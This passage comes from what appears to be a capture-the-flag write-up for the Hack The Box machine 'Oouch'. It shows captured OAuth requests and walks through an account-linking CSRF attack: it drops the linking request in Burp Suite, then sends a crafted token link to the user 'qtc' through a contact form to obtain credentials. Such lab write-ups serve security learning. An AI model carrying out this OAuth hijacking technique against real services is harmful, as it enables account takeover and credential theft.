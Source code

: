 ```http
csrfmiddlewaretoken=v9wy7hWoUCz9Z5GQi5XBkH0zo21kut2aGlNFwNPiNTvAtHvs8N7iq6XU1acH3Y1P&redirect_uri=http%3A%2F%2Fconsumer.oouch.htb%3A5000%2Foauth%2Fconnect%2Ftoken&scope=read&client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&state=&response_type=code&allow=Authorize
```

We can forward this request and retrieve the next:

```http
GET /oauth/connect/token?code=IhKT0Gc97DNDoVQp2Urhfun5pcl4Vj HTTP/1.1
Host: consumer.oouch.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://authorization.oouch.htb:8000/
Connection: close
Cookie: session=.eJwlT8tqAzEM_BXjcyh-y85X9F5CkGQpuzTNlvXmFPLvNRQEwyDNQy971TuORYY9f72sOSbYHxkDb2JP9vMuOMTct5tZH-bYDDLPpTmWdZjfefNhL-_LaZrsMhZ7PvanTLZ2e7Y5S_elq3poEVJTqNqEci0uFQzJKTM4yqFw1NKRcoy--Uqt-hQlEdQguceK2TUlUc2F_RxyiYtn0OnRa0SHoUIsBAqJZ1ymVrLSrM9j1-uxfctj9kFIHiJqIS6BqwhqyJ1gilxJjBywQsp-6p5D9v8ngn3_AcFgVkE.ZA1w3A.rxmnxwIcngbjUG5bfhtMo3YL0G0
Upgrade-Insecure-Requests: 1

```

This is request that links accounts together. **We need to drop this using Burpsuite and save the code sent.** Afterwards, we can create a malicious link for `qtc` to click:

```
http://consumer.oouch.htb:5000/oauth/connect/token?code=IhKT0Gc97DNDoVQp2Urhfun5pcl4Vj
```

&#x20;Send this in the Contact Form and wait for a little bit. Then, we can attempt to use OAuth by accessing `/oauth/login` on the consumer server. If done correctly, this is what we would see in the Documents section:

<figure><img src="../../../.gitbook/assets/image (15) (2).png" alt=""><figcaption></figcaption></figure>

Great! Now we have credentials to access some other stuff. There's an SSH key somewhere on this  website as well.

### Registering --> Steal Token

Now that we have credentials, we can register somewhere. I used `gobuster` to scan the authorization server, and found another endpoint at `/oauth/applications/register`.&#x20;
